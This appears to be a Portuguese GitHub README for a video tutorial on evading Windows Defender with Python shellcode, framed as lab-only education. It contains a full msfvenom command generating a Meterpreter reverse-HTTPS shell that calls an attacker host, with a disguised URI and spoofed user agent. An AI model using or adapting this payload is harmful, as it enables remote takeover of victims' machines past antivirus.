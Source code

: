 #  Bypass do Windows Defender com Shellcode em Python  

Este repositório acompanha o vídeo tutorial publicado no meu canal, com o objetivo **exclusivamente educacional** e de **conscientização em segurança cibernética**.  

Mostro como técnicas ofensivas podem ser usadas para evadir defesas e, principalmente, como profissionais de segurança podem **entender, detectar e mitigar** esses ataques.  

⚠️ **Aviso importante**  
Este conteúdo tem caráter acadêmico e deve ser usado apenas em **laboratórios controlados**, para aprendizado em segurança ofensiva e defesa cibernética.  
Não utilize em ambientes de produção.  

---

##  Ferramentas apresentadas  

- Python  
- ctypes  
- msfvenom (Metasploit)  
- PyInstaller  

---

##  Comando do Payload
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.0.245 LPORT=666 LURI=/api/v1/data/ HTTPUSERAGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.3240.76" -f python
```
---

##  Assista ao vídeo  

https://youtu.be/2U7F4oFewaA

---

##  Objetivo  

O foco deste conteúdo é ajudar profissionais e estudantes de cibersegurança a compreender:  

- O funcionamento de técnicas de evasão  
- As limitações de antivírus tradicionais  
- Como reforçar camadas de defesa  
